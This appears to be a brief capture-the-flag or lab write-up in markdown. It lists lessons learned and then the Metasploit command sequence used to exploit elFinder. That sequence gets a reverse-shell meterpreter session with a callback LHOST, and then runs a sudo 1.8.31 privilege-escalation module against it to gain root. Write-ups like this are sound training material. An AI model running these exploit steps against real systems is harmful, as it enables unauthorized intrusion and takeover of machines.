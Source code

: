 # Lesson Learn
- how to use `Metasploit`    
- how to set Reverse Shell for WSL  
    It doen't work well when you use Metasploit due to network. 
- In Metasploit, how to use a session with [CTRL] + [Z] or `bg` command.  


# Write Up
```
msf6> search elFinder
msf6> use 3
msf6> options
msf6> set RHOSTS XXX.XXX.XXX.XXX
msf6> set LHOST YYY.YYY.YYY.YYY
msf6> run
meterpreter> shell
getuid
sudo -V
exit
meterpreter > [CTRL] + [Z] or bg
msf6> search sudo 1.8.31
msf6> use 0
msf6> sessions
msf6> set SESSION [number]
msf6> run
```